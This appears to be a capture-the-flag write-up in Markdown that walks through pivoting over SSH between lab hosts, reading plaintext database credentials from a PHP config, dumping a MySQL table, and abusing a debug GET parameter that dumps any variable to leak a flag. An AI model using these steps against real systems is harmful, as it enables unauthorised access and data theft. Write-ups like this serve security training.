# 08

### ptest3.bis.mil

1.) `ls -R -A $HOME`

  * `.ssh` folder

2.) `cat .ssh/config`

  * user `webmaster` is a `ptest2.bis.mil` host

3.) `ssh webmaster@ptest2.bis.mil`

### ptest2.bis.mil

4.) `cd /var/www/html`

5.) `cat libs/constants.php`

```
define('DB_DRIVER', 'mysql');
define('DB_HOST', 'localhost');
define('DB_HOST_USERNAME', 'arcturus');
define('DB_HOST_PASSWORD', '16431879196842');
define('DB_DATABASE', 'arcturus');
```

6.) `mysql -u arcturus -p16431879196842`

7.) `use arcturus;`

8.) `show tables;`

  * tables: contracts, pages, tagline

9.) `select * from contracts;`

10.) **J_20-11-22-38-01_2a87a2c2ad810dfd8d839eae1216c65732cb84a896b730c4ed77c3be966f790f**

11.) `cat index.php`

```
/* TODO: DEVELOPMENT ONLY, REMOVE IN PRODUCTION!!!
 *
 * Prints out value of a variable specified by GET parameter debug_variable
 */
if (isset($_GET['debug_variable'])) {
  var_dump(${$_GET['debug_variable']});
};
```

12.) `cat internal-memo.php`

```
<?php echo $GLOBALS['INTERNAL_MSG']; ?>
```

13.) `curl http://ptest2/index.php?debug_variable=INTERNAL_MSG`

```
string(104) "Ziskali jste tajemstvi B_21-11-22-59-01_fd5e5384449c8f7210aeae754d02913a70e3b0cc52e933ab18dec768a6c346b0"
<!DOCTYPE HTML>
<html>
    <head>
        <title>Project Arcturus Home - Project Arcturus</title>
...
```

14.) **Ziskali jste tajemstvi B_21-11-22-59-01_fd5e5384449c8f7210aeae754d02913a70e3b0cc52e933ab18dec768a6c346b0**
